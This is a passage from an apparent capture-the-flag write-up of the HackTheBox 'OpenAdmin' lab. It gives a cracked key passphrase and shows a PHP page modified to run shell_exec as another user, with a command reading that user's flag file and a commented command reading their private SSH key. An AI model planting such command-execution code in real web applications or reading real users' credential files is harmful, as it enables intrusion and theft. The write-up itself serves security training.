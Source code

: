 And voila -- `bloodninjas` is the passcode for that key.

Modified `main.php` with poc:

```console
jimmy@openadmin:/var/www/internal$ cat main.php 

<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
#$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
$output = shell_exec('whoami');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Got successful command execution as joanna

![poc](./images/poc.png) 

Time to get the flag:

```console
jimmy@openadmin:/var/www/internal$ cat main.php 

<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
#$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
$output = shell_exec('cat /home/joanna/user.txt');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

![flag](./images/flag.png) 
